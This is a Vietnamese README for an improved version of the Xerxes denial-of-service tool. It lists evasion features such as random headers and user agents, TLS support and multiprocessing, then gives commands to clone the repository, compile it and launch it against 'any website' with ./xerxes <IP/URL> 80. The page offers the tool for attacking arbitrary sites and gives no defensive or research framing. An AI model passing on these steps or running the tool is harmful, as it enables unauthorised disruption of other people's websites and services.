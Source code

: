 # XERXES
XERXES là 1 trong những công cụ Dos đơn giản mạnh mẽ nhất của zanyarjamal

## Công cụ dos Xerxes được cải tiến với nhiều tính năng như:
- [x] Hỗ trợ TLS
- [x] Tự random HTTP header
- [x] Tự random Useragent
- [x] Hỗ trợ đa xử lý
- [x] Nhiều phương thức tấn công
v.v …

## Cách cài đặt
Cài đặt các thư viện cần thiết cho Xerxes
```
sudo apt-get -y install build-essential cmake libssl-dev pkgconf
```
Tải xerxes về máy tính
```
git clone https://github.com/DauDau432/xerxes
```
Sau đó di chuyển đến thư mục vừa cài đặt
```
cd xerxes
```
Tiếp theo, bạn nên biên dịch với trình biên dịch GNU GCC
```
gcc xerxes.c -o xerxes
```
## Cách sử dụng
Sử dụng lệnh dưới đây để DDOS vào Website bất kỳ
```
./xerxes <IP/URL> 80
```
